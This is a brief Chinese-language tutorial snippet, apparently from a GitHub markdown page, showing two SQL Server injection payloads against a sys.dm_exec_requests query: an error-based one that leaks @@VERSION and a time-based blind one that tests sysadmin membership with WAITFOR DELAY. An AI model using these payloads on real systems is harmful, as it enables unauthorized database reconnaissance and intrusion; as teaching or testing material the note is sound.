

# 1、报错注入
```
select session_id,command from sys.dm_exec_requests where session_id=12 or 1=@@VERSION;
```
如下图  


# 1.2、时间盲注
```
select session_id,command from sys.dm_exec_requests where session_id=12;if(1=(select is_srvrolemember('sysadmin'))) waitfor delay '0:0:5'-- and 1=1;
```
如下图  

